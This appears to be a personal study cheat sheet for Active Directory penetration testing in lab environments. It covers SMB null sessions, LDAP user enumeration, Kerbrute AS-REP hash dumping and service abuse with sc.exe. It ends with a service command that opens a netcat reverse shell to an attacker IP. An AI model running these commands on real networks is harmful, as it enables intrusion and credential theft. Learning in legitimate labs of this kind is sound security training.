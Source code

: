 # Active Directory CheatSheet

### What I want to learn from this path.

    - Understand how kerberos and Kerbrute works!



### SMB service
-   using smbmap we can get the shares
    
    ```bash
    smbmap -H <host> -u 'null'
    # to perform the null session 
    ```


-   using smbclient

    ```bash
    smbclient -L //<host>/Shares -N
    # with -N we perform a null session

    smbclient //<host>/Shares -N
    # to connect without listing the shares
    ```
    

### LAPS
Local Administrator Password Solution. Is used to manage local account
passwords of Active Directory computers.




### LDAP (Lightweight directory access protocol)
Is a protocol that makes it possible for applications to query
user information rapidly.


the port fort ldap 389


Someone within your office wants to do two things: Send email to a
recent hire and print a copy of that conversation on a new printer.
LDAP (lightweight directory access protocol) makes both of those steps possible.

Set it up properly, and that employee doesn't need to talk with IT
to complete the tasks.


### What is LDAP?

Companies store usernames, passwords, email addresses, printers
connections, and other static data within directories. LDAP is an
open, vendor-natural application protocol for accessing and main-
taining that data. LDAP can also trackle authentication, so users can sign
on just once and access many different files on the server.

```bash
# user enumeration for ldap protocol 389

/opt/windapsearch.py -d <domain> --dc-ip <ip address>


GetADUsers.py -d <domain>/ -dc-ip <ip address> -debug
```


### Kerberos


With a several names, we get using user-anarchy, possible
usernames

and perform a kerbrute attack

```bash
kerbrute userenum -d <domain> --dc <ip address> user-list.txt
```

with this tool if there are any valid user in the user-list.txt
we get a hash referring to a Ticket Granted Ticket

```bash
❯ /opt/kerbrute  userenum -d <domain name "commonly .local or .htb"> --dc <ip address domain controller> unames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/29/23 - Ronnie Flathers @ropnop

2023/05/29 23:33:40 >  Using KDC(s):
2023/05/29 23:33:40 >   10.10.10.175:88

2023/05/29 23:33:40 >  [+] fsmith has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$<userdomain>@<domain>:<hash to crack it with john or hashcat>
2023/05/29 23:33:40 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2023/05/29 23:33:41 >  Done! Tested 24 usernames (1 valid) in 0.481 seconds
```

The code above it's an example of how can i do to get the TGT from kerbrute and
after that I cracked it and i get the password for the user fsmith and
connect it with evil-winrm


Inside the Powershell console, I started enumerating information

```powershell
net user <user>

# to get the ptivilege information about that user
whoami /priv

# to find any other resurce inside the Powershell I use

Get-ChildItem -Path "C:\Users\<User>" -Filter "name of file" -Recurse
```

## Further information

Using Winpeas.exe and updload it from the attack machine by evil-winrm
and get the information using evil-winrm

### Getting information using the Winpeas.exe

## Bloodhound

...


## Services in Active Directory

when you have the privilege **Server Operators**
You can perform a change the execution of a service
for example:

```powershell
sc.exe create reverse binPath="C:\<destination path from the exe>"
# in this case the solution could be
sc.exe <services name> config binPath=""
sc.exe stop <service name>
sc.exe start <service name>
```


final code
```powershell
sc.exe create reverse binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.39 443"
```



## Impacket-Tools

```bash
mssqlclient.py scrm.local/sa:sa@10.10.11.168
```

